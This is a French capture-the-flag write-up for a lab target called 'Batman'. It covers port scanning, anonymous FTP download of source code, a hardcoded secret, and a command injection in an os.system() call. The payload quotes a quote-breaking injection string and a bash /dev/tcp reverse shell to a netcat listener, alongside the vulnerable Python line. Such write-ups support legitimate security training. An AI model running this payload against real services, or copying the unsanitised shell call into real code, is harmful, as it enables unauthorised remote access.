

# Batman

## Contexte

- **Nom du challenge** : Batman
- **Catégorie** : Réseau / Injection de commandes
- **Difficulté** : Easy
- **Objectif** : exploiter le service Gotham Hotline pour obtenir un reverse shell.
- **Cible** : `10.10.0.8`


---

## 1. Reconnaissance

Depuis Exegol, je lance un scan de tous les ports TCP :

```bash
nmap -Pn -p- -sC -sV 10.10.0.8
```

`-Pn` ignore la découverte d'hôte, `-p-` couvre tous les ports TCP, `-sC` lance
les scripts par défaut et `-sV` identifie les services et leurs versions.

Résultats importants :

```text
21/tcp    open  ftp     vsftpd 3.0.5
22/tcp    open  ssh     OpenSSH
3000/tcp  open  unknown
```

Nmap signale un **accès FTP anonyme**, le fichier `alert.py` et un répertoire
`logs/` annoncé comme accessible en écriture. Le port **3000** répond avec un
message du service **Gotham Hotline**.

---

## 2. Récupération du code par FTP anonyme

Je me connecte au ftp :

```bash
ftp <IP>
```

Je saisis `anonymous` comme nom d'utilisateur, puis les commandes FTP :

```text
ls
get alert.py
```

Le téléchargement réussit. Je lis ensuite le fichier local :

```bash
cat /alert.py
```

---

## 3. Analyse / Identification de la vulnérabilité

Dans `alert.py`, je relève l'écoute sur `0.0.0.0:3000` et le secret attendu pour
l'authentification : `G0th4mN33dsTh3B4t!`.

Après authentification, le programme reçoit le message d'urgence dans `alert_text`.
La logique vulnérable est la suivante :

```python
alert_text = conn.recv(1024).strip().decode()
os.system("bash -c 'echo %s > /opt/hotline/logs/report.txt'" % alert_text)
```

**Vulnérabilité** : `os.system()` exécute une commande via un shell. La saisie
utilisateur est insérée sans neutralisation dans la commande passée à `bash -c`.
Des métacaractères comme `;` peuvent donc introduire une autre commande : c'est une
**injection de commandes**.

---

## 4. Connexion au service Gotham Hotline

Je me connecte au service TCP avec Netcat :

```bash
nc -nv 10.10.0.8 3000
```

`-n` désactive la résolution DNS et `-v` affiche les détails de connexion.
L'échange est le suivant :

```text
Gotham Hotline: Identify yourself.
G0th4mN33dsTh3B4t!
Authorized signal. What is the emergency?
```

L'authentification est acceptée. Le **second champ**, celui du message d'urgence,
est le point d'injection identifié dans le code.

---

## 5. Préparation du reverse shell

Dans un autre terminal, je lance l'écoute :

```bash
nc -lvnp 4444
```

`-l` active l'écoute, `-v` les détails, `-n` désactive la résolution DNS et
`-p 4444` fixe le port local.

---

## 6. Exploitation

Avec le port **4444** en écoute, j'injecte la commande suivante dans le champ
d'urgence (`$>`) du service Gotham Hotline :

```text
'; bash -c 'bash -i >& /dev/tcp/<IP_VPN>/4444 0>&1' #
```

Décomposition :
- `'` referme prématurément la chaîne `'echo %s ...'` de la commande d'origine.
- `;` termine cette instruction et démarre une nouvelle commande shell.
- `bash -c 'bash -i >& /dev/tcp/<IP_VPN>/4444 0>&1'` ouvre une connexion TCP vers
  mon listener et y redirige un shell interactif (`bash -i`), via la redirection
  `/dev/tcp` propre à bash.
- `#` commente le reste de la commande d'origine (`> /opt/hotline/logs/report.txt'`)
  pour éviter une erreur de syntaxe shell.

**Résultat** : la connexion est reçue sur le listener Netcat, obtenant un shell
interactif sur la machine cible.

---

## 7. Flag

Une fois le reverse shell obtenu, le flag `user.txt` a été localisé et récupéré
depuis le shell distant.

---

## Outils utilisés

- `nmap` — scan de tous les ports TCP
- `ftp` — accès anonyme et téléchargement du code source
- `cat` — lecture du code Python
- `ip` — identification de l'adresse VPN
- `nc` (Netcat) — dialogue TCP, envoi du payload d'injection et réception du reverse shell

## Techniques utilisées

- **FTP anonyme** : récupération d'un code source exposé
- **Analyse du code source** : secret en clair et appel à `os.system()`
- **Injection de commandes** : saisie non neutralisée interprétée par le shell,
  casse du guillemet simple pour injecter une commande arbitraire
- **Reverse shell** : connexion initiée par la cible vers mon adresse VPN
  (`/dev/tcp`) pour obtenir un shell interactif
- **Diagnostic des permissions** : distinguer l'écriture locale des droits FTP distants